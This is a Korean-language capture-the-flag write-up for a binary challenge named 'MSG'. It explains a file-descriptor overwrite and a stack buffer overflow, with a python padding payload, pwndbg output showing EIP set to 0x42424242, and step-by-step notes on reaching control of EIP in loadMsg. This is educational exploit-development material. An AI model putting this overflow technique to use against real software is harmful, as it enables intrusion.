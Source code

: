 # MSG Write-up

### 취약점1

![img](disasm.png)

취약점이 발생하는 함수입니다. 사용자의 입력으로 fd를 조작할 수 있습니다. (코드를 분석해보면 알겠지만 파일을 처음 4바이트는 메시지의 길이를 의미하게 됩니다.)

### 취약점2

```
root@inj3ct:~/tmp/sctf# python -c 'print "A"*276+"B"*4' > out

pwndbg> r
Starting program: /root/tmp/sctf/msg_patched 
1. New message
2. Change message
3. Load message
4. Exit
3
Input msg ID : 
out
msg: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[──────────────────────────────────REGISTERS───────────────────────────────────]
*EAX  0xffffffff
 EBX  0x0
*ECX  0xf7ffb940 ◂— 0xf7ffb940
*EDX  0xffffffc0
*EDI  0xf7fc8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*ESI  0xf7fc8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*EBP  0x41414141 ('AAAA')
*ESP  0xffffd650 ◂— 0xa /* '\n' */
*EIP  0x42424242 ('BBBB')
[────────────────────────────────────DISASM────────────────────────────────────]
Invalid address 0x42424242
```

위처럼 오버플로우 버그가 발생합니다.

### 설명

1. dummy를 252(0x108-0xC) byte만큼 넣은 후, fd 값을 2(stderr)로 덮어 씌운다.
2. 뒤에서 stderr이 close되서 다음부터 파일을 열게 되면 fd의 값은 2부터 쌓인다.
3. s에 특수문자가 포함되어 있다면 새롭게 열린 파일에 "This is ~~~ : [input]\n"이 쓰인다. 
4. 분석해보면 알겠지만 이 프로그램에서 파일을 읽고 쓰는 데에 있어서 파일의 처음 4바이트는 데이터의 길이를 알려주는 포멧이다. 이를 통해 오버플로우를 발생시킬 수 있다.
5. loadMsg 함수로 넘어가면 파일의 첫 276바이트 이후의 4바이트가 EIP로 덮어쓰인다.
